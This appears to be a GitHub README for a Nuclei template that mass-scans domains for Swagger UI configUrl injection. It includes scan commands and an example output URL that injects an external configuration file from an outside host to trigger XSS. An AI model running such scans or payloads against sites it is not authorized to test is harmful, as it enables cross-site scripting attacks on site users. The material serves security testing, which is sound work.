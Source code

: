 # SwaggerX
Swagger UI Extensive Nuclei template for mass Scanning

Description: This Nuclei template is designed to detect potential Swagger UI Config URL injection vulnerabilities. The template specifically targets endpoints commonly used in API documentation systems, such as Swagger UI, and checks for the presence of the configUrl parameter, which can be exploited to inject external configuration files, leading to potential XSS attacks or other security risks.

The template is finely tuned to minimize false positives by focusing on Swagger-specific patterns, such as the presence of keywords like "swagger," "api-docs," or versioned paths typically associated with Swagger UI setups.

Usage:

# Basic Scan: To run a basic scan against a list of domains:
```
cat domains.txt | nuclei -t swagger.yaml
```

# Single URL Scan: To scan a single URL:

```
echo "https://example.com" | nuclei -t swagger.yaml
```

# Template Structure:

Matchers: The template employs several matchers, including regex patterns that are specific to Swagger UI paths and versioning.
Attack Vector: The injection vector is the configUrl parameter, a known entry point for injecting external configuration URLs.
Example Outputs:

[swagger-ui-config-url-injection] [http] [low] https://example.com/v0.10/index.html?configUrl=https://xss.smarpo.com/test.json
This template is useful for security researchers and penetration testers looking to identify misconfigured or vulnerable Swagger UI instances in web applications.

# Notes:

Please note it may produce False Positives however if it does alert with the Config but does not execute please try with the other XSS Swagger Url
